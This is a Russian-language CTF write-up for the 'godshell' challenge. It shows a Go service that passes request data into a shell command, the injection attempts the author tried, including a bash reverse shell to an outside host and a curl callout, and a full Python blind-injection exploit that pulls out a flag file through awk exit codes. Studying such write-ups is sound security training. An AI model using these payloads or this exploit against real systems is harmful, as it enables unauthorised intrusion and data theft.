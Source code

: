 # itstinkoff-2023/godshell

## Сервис: первое впечатление

Заходим на страничку сервиса.

![сайт сервиса: слова "Human, ask me a question", текстовое поле со строкой "fffffffffff", синяя кнопка "Send", под ней зелёное сообщение "This question has been added to the processing queue"](site.png)

С виду и непонятно, что происходит. Можно ввести какую-то строку и отправить её на сервер. Тут можно заметить, что если ввести строку с `"`, то сервер вернёт ошибку.

![опять сайт сервиса, но в поле для ввода кавычка, зелёное сообщение сменилось красным с текстом "Failed to add question"](site-error.png)

## Смотрим исходники

Качаем архив с исходниками. В `main.go` наблюдаем следующее:

```go
cmdString := `echo -n "` + string(decodedData) + `" | od -An -t dC | awk '{ for (i=1; i<=NF; i++) printf "%d\n", ($i*$i+$i)%256 }' | shuf | awk 'BEGIN{srand();} {x=0; for(i=1;i<=NF;i++){x+=sqrt($i*rand())%$1} print x}' > /dev/null`
```

Ага. Поэтому с кавычкой запросы и сыпались. Здесь просто подставляется в команду строка из тела запроса.

Отлично, значит, можно устроить Command Injection и выполнить произвольную команду, отправив что-то типа:

```
"; whoami #
```

К сожалению, сервер не возвращает ответ, так что мы можем только понять, успешна команда или провальна:

```go
err = cmd.Run()
if err != nil {
    http.Error(w, "", http.StatusBadRequest)
    return
}

w.WriteHeader(http.StatusOK)
```

## .где я

Примерно так выглядели мои следующие попытки выполнять команды:

```
bash -c "bash -i >& /dev/tcp/altau.site/9001 0>&1" -- fail
curl http://altau.site:9001 -- fail
whoami -- success
bash -c "whoami" -- fail
sh -c "whoami" -- success
which bash -- fail
ping altau.site -- fail
which ping -- fail
which telnet -- fail
```

А почему? А потому что надо было читать Dockerfile.

```Dockerfile
FROM debian:9-slim
...
ARG USER=app
...
ARG BINDEL=bash
...
RUN /bin/sh -c "rm /bin/${BINDEL}"
...
COPY index.html flag.txt ${DIR}/
RUN chmod 444 index.html flag.txt

# We don't want the computer to become too powerful
RUN rm /usr/bin/perl /usr/bin/perl5.24.1
...
USER ${USER}
```

Нас заперли в отдельном пользователе в порезанном Debian'е, а также удалили `bash` и `perl`. В качестве оболочки используется `dash`.

## Танцы с `awk`ом

Ну что ж, ладно. У нас остаётся старый добрый `awk`. Но он всё ещё не может ничего выводить... Но может возвращать код ошибки.

Как на `awk` будет "узнать, находится ли в заданном интервале Nй символ первой строки файла, и вернуть статус в соответствии с этим"?

```sh
awk 'BEGIN{exitCode=1} NR==1{if(substr($0,1,1) ~ /i/) exitCode=0; exit exitCode}' file.txt
```

Я не настоящий сварщик, но это работает.

С этим можно написать эксплойт, который будет отправлять на сервер запросы с разными интервалами, в которых могут быть символы:

```python
#!/usr/bin/env python3
import string
import requests

RANGES = (string.ascii_lowercase, string.ascii_uppercase, string.digits, string.punctuation, string.whitespace)
URL = "https://its-godshell-gze55elc.spbctf.ru/question"
LINENUM = 1

def determine_range(i):
    for range in RANGES:
        payload = bytes(f"\"; awk 'BEGIN{{exitCode=1}} NR=={LINENUM}{{if(substr($0,{i},1) ~ /[{range[0]}-{range[-1]}]/) exitCode=0; exit exitCode}}' /home/app/flag.txt #", encoding="ascii")
        rsp = requests.post(URL, data=payload)
        if rsp.status_code == 200:
            return range
        
def binsearch(i, range):
    start, end = 0, len(range) - 1
    while start < end:
        mid = (start + end) // 2
        print(f"Trying binsearch: {start}, {mid}, {end}")
        payload = bytes(f"\"; awk 'BEGIN{{exitCode=1}} NR=={LINENUM}{{if(substr($0,{i},1) ~ /[{range[start]}-{range[mid]}]/) exitCode=0; exit exitCode}}' /home/app/flag.txt #", encoding="ascii")
        rsp = requests.post(URL, data=payload)
        if rsp.status_code == 200:
            end = mid
        else:
            start = mid + 1
    return range[start]

def bruteforce(i, range):
    for char in range:
        print(f"Trying bruteforce: {char}")
        if char in "'\"": # problematic AF
            continue
        payload = bytes(f"\"; awk 'BEGIN{{exitCode=1}} NR=={LINENUM}{{if(substr($0,{i},1) == \"{char}\") exitCode=0; exit exitCode}}' /home/app/flag.txt #", encoding="ascii")
        rsp = requests.post(URL, data=payload)
        if rsp.status_code == 200:
            return char
    return "?"

def main():
    flag = ""
    i = 1
    while True:
        range = determine_range(i)
        if range is None:
            print("Done")
            break
        print(f"Range for {i} is {range}")
        if range != string.punctuation:
            foundChar = binsearch(i, range)
        else:   # regex can be funny with special chars
            foundChar = bruteforce(i, range)
        flag += foundChar
        print(f"Found char for {i} is {foundChar}")
        i += 1
    print(f"Flag is {flag}")

if __name__ == "__main__":
    main()
```

`awk` обрабатывает файлы построчно, но не страшно, потому что флаг наверняка в первой и единственной строке, да? Нет:

```
...
Done
Flag is On
          the
             second
                   line'
                        kek
```

Ну ладно, поменяем `LINENUM` на 2 и запустим ещё раз:

```
...
Done
Flag is its{Th3_An5weR_oF_3VeRy7hiN6_1S_f0rTy_7hRE3_d0Nt_5Ue_U5_pL34sE}
```

gg.

